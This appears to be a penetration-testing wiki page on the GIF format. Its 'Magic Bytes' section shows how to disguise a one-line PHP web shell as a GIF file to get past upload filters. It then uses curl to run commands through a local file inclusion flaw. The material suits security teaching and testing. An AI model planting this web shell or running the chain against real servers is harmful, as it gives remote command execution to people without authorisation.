 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# GIF

The GIF file type is a widely used image format that stands for Graphics Interchange Format. It was originally developed by CompuServe and has remained popular due to its portability, simplicity, and broad support across operating systems, browsers, and applications. A GIF file uses lossless compression based on the Lempel-Ziv-Welch (LZW) algorithm, which reduces file size without sacrificing image quality, though the format is limited to a color palette of 256 indexed colors. This makes GIFs efficient for graphics such as logos, icons, and simple illustrations, but less suitable for high-resolution images or photographs that require a wider color range. From a security perspective, GIFs are generally safe, but malformed or specially crafted files have occasionally been used to trigger vulnerabilities in poorly implemented image parsers.

## Magic Bytes

If a webserver allows the uploading of `.gif` files (bypassing extension filters), a malicious one containing PHP code can be created, by including GIF's [magic bytes](../#server-side-filters) at the beginning of the file content (`GIF8`) (bypassing content type filters).

```bash
# Create a malicious GIF file
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

# Check the file's MIME type
$ file --mime-type shell.gif
shell.gif: image/gif
```

This file on its own is harmless and would not affect normal web application. However, if we combine it with a LFI flaw, then we may be able to achieve RCE after finding its uploads directory.

```bash
# Remote command execution
curl http://<ip:port>/index.php?language=./profile_images/shell.gif&cmd=id
```

